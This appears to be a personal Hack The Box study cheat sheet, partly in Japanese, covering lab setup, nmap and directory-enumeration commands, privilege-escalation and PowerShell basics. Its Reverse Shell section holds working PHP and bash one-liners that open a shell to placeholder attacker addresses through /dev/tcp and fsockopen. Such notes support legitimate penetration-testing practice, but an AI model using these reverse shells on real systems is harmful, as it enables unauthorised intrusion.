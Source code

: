 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### nmap

- バージョン検出
```shell
nmap -sV rhost
```
- OS検出
```shell
nmap -O rhost
```
- OS 検出 + バージョン検出
```shell
nmap -A rhost
```
- ping 送らない
```shell
nmap -Pn rhost
```

#### nmap script engine

- Vulnerability 検出
```shell
nmap --script=vuln -p rport1,rport2 rhost
```

- DNS

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
